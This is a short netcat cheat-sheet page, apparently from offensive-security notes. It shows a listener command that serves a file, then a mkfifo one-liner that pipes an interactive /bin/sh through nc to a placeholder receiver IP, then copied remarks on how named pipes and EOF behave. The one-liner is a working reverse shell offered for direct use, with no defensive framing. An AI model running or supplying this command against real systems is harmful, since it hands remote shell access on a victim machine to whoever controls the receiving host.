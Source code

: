 # netcat

When you use the `-q0` flag, `netcat` will close the connection as soon it detects the end of your file.

```text
nc -q0 -l -p 4444 < file.txt
```

Send Reverse Shell with `mkfifo`

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc <receiver_ip> 4444 > /tmp/f
```

{% embed url="https://unix.stackexchange.com/questions/139490/continuous-reading-from-named-pipe-cat-or-tail-f" %}

* `cat` keeps reading until it gets `EOF`. 
* A pipe produces `EOF` on the output only when it gets `EOF` on the input. 
* The logging daemon is opening the file, writing to it, and keeping it open — just like it does for a regular file — so `EOF` is never generated on the output. 
* `cat` just keeps reading, blocking whenever it exhausts what's currently in the pipe.



